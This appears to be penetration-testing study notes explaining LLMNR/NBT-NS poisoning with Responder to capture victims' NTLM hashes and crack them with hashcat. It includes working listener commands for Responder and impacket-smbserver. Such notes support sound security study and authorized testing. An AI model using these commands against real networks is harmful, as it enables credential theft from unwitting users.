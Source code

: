 ### Responder
##### Attack 1: LLMNR/NBT-NS Poisoning through SMB
>Essentially when a system tries to access an SMB share, it sends a request to the DNS server which then resolves the share name to the respective IP address and the requesting system can access it. However, when the provided share name doesn’t exist, the system sends out an LLMNR query to the entire network. This way, if any user(IP address) has access to that share, it can reply and provide the communication to the requestor.

>Let’s see a share “wow” which doesn’t exist currently. If the share exists on the same network, wow can be accessed by typing “\\\\wow” in the address bar of file explorer. It doesn’t exist and so, Windows throws an error.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/9dbcb69f-3468-4a23-869f-57f49bcf4ec8)

>In comes responder. Now at this point, the requesting machine (windows 10) sends out an LLMNR request. We set up responder to poison that request. We need to tell responder the NIC on which we want to listen for LLMNR requests. Here, eth0. The default responder run shall start LLMNR and NBT-NS poisoning by default.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/715de23d-fb7c-4794-92ec-28663d168154)

>Now, when the victim tries to access shared drive “wow” he sees this! Wow has suddenly been made available and the poisoner asking for user credentials.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/7b811a5b-998f-4456-8972-589602aa57ea)

>Wow isn’t available at all! That’s just our poisoned answer in order to obtain NTLM hashes. Even if the user doesn’t input credentials, the hashes will be obtained.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/e7d16cb4-e0ce-4032-8aa4-2b03ccd661b0)

>We can now save these hashes in a file hash.txt and use hashcat to crack it. Please note that module number 5600 is the one suited to crack NTLMv2. If you obtained some other version of NTLM, please follow the hashcat modules here to specify the correct one.

##### SMB
>OSCP exam only allow Analyze mode by -Av
```
Listener:
sudo responder -I tun0 -v
impacket-smbserver xingdi Desktop -smb2support

Access:
\\IPv4 address\test || //ip/test
```
##### HTTP
```
http://ip/
```
